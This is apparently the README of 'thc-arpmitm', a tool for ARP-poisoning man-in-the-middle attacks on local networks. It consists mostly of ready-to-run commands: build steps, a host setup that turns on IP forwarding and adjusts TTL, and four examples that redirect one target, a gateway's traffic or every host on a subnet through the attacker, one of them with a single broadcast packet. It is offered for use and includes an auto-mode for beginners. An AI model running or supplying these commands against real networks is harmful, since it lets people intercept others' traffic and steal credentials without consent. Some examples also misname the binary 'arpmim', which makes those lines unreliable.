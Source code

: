 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/tree/master/releases](https://github.com/hackerschoice/thc-arpmitm/tree/master/releases)

**Install:**
```sh
./configure --enable-static \
&& make all
```

Setup:
```sh
echo 1 >/proc/sys/net/ipv4/ip_forward
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
iptables -t mangle -A PREROUTING -j TTL --ttl-inc 1
iptables -L FORWARD -vn
```

**Example 1:**

Redirects all traffic between the target '10.0.1.111' and the Internet through us.
```sh
arpmitm -t 10.0.1.111
```

Longer version doing exactly the same:
```sh
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```

**Example 2:**

Tell the gateway (10.0.1.254) to redirect all traffic destined for .111 and .222 via us (00:02:13:37:73:50). Traffic from .111/.222 towards the gaterway is _not_ redirected (-A).
```sh
arpmim -v -A 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111 10.0.1.222
```

**Example 3:**

Use 1 broadcast packet to tell *everyone* that 10.0.1.254 is us.
```sh
arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```

**Example 4 the bold:**

Redirect all local traffic between the 4 hosts through us.
```sh
arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM


